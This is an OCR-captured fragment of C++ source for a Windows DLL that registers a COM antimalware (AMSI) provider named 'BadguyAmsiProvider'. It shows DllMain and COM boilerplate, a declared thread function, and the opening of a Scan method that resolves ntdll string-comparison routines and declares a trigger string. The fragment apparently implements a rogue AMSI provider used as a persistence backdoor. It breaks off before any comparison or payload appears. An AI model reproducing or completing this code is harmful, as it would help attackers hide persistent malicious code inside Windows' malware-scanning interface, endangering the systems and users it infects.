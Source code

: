 ```C++
	);

typedef NTSYSAPI BOOLEAN(NTAPI* _RtlEqualUnicodeString)(
	PUNICODE_STRING String1,
	PUNICODE_STRING String2,
	BOOLEAN CaseInsetive
	);

DWORD WINAPI MyThreadFunction(LPVOID lpParam);
void ErrorHandler(LPTSTR lpszFunction);

BOOL APIENTRY DllMain(HMODULE module, DWORD reason, LPVOID reserved)
{
	switch (reason)
	{
	case DLL_PROCESS_ATTACH:
		g_currentModule = module;
		DisableThreadLibraryCalls(module);
		Module<InProc>::GetModule().Create();
		break;

	case DLL_PROCESS_DETACH:
		Module<InProc>::GetModule().Terminate();
		break;
	}
	return TRUE;
}

#pragma region COM server boilerplate
HRESULT WINAPI DllCanUnloadNow()
{
	return Module<InProc>::GetModule().Terminate() ? S_OK : S_FALSE;
}

STDAPI DllGetClassObject(_In_ REFCLSID rclsid, _In_ REFIID riid, _Outptr_ LPVOID FAR* ppv)
{
	return Module<InProc>::GetModule().GetClassObject(rclsid, riid, ppv);
}
#pragma endregion

class
	DECLSPEC_UUID("2E5D8A62-77F9-4F7B-A90C-2744820139B2")
	BadguyAmsiProvider : public RuntimeClass<RuntimeClassFlags<ClassicCom>, IAntimalwareProvider, FtmBase>
{
public:
	IFACEMETHOD(Scan)(_In_ IAmsiStream * stream, _Out_ AMSI_RESULT * result) override;
	IFACEMETHOD_(void, CloseSession)(_In_ ULONGLONG session) override;
	IFACEMETHOD(DisplayName)(_Outptr_ LPWSTR * displayName) override;

private:
	LONG m_requestNumber = 0;
};


HRESULT BadguyAmsiProvider::Scan(_In_ IAmsiStream* stream, _Out_ AMSI_RESULT* result)
{
	_RtlInitUnicodeString RtlInitUnicodeString = (_RtlInitUnicodeString)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "RtlInitUnicodeString");
	_RtlEqualUnicodeString RtlEqualUnicodeString = (_RtlEqualUnicodeString)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "RtlEqualUnicodeString");

	UNICODE_STRING myTriggerString1;
```